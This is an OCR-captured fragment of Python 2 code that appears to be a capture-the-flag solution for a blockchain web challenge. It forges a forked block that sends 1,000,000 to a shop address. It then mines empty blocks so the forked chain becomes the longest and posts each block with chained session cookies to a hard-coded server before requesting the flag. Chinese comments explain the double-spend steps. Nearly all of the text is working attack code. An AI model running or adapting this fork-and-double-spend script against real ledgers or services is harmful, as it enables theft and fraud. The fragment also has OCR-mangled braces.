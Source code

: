 ```
    ])

def hash_block(block):
    return reduce(hash_reducer, [block['prev'], block['nonce'],
                                 reduce(hash_reducer, [tx['hash'] for tx in block['transactions']], EMPTY_HASH)])

def empty_block(msg, prevHash):
    b=`{``}`
    b["prev"] = prevHash
    b["transactions"] = []
    b = pow(b, DIFFICULTY, msg)
    return b

#从创世块开始分叉，给商店转1000000
block1 = `{``}`
block1["prev"] = genesis_hash
tx = `{`"input":[input],"output":[`{`"amount":1000000, 'id':txout_id,'addr':shop_address`}`],'signature':[signature]`}`
tx["output"][0]["hash"] = hash_utxo(tx["output"][0])
tx['hash'] = hash_tx(tx)
block1["transactions"] = [tx]
block1 = pow(block1, DIFFICULTY)
url_begin = "http://116.85.48.107:5000/b942f830cf97e/create_transaction"
def header_change(session):
    header = `{`
    "Host":"116.85.48.107:5000",
    "Upgrade-Insecure-Requests":"1",
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36",
    "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
    "Accept-Language":"zh-CN,zh;q=0.8",
    "Cookie":"session="+session,
    "Connection":"close",
    "Content-Type":"application/json"
    `}`
    return header
s1 = requests.post(url=url_begin,data=myprint(block1),headers=header_change(session))
session1 = s1.headers['Set-Cookie'].split(";")[0][8:]
print s1.content
#构造空块增加分叉链长度，使分叉链最长，因为max的结果不唯一，少则一次多则两次
block2 = empty_block("myempty1", block1["hash"])
s2 = requests.post(url=url_begin,data=myprint(block2),headers=header_change(session1))
session2 = s2.headers['Set-Cookie'].split(";")[0][8:]
print s2.content
block3 = empty_block("myempty2", block2["hash"])
s3 = requests.post(url=url_begin,data=myprint(block3),headers=header_change(session2))
session3 = s3.headers['Set-Cookie'].split(";")[0][8:]
print s3.content
#余额更新成功,系统自动添加块，转走商店钱，钻石+１
#从自己的块，即系统转走钱之前的那个块再次分叉，添加空块
block4 = empty_block("myempty3", block3["hash"])
s4 = requests.post(url=url_begin,data=myprint(block4),headers=header_change(session3))
session4 = s4.headers['Set-Cookie'].split(";")[0][8:]
print s4.content
block5 = empty_block("myempty4", block4["hash"])
s5 = requests.post(url=url_begin,data=myprint(block5),headers=header_change(session4))
session5 = s5.headers['Set-Cookie'].split(";")[0][8:]
print s5.content

flag_url = "http://116.85.48.107:5000/b942f830cf97e/flag"
flag = requests.get(url=flag_url,headers=header_change(session5))
```
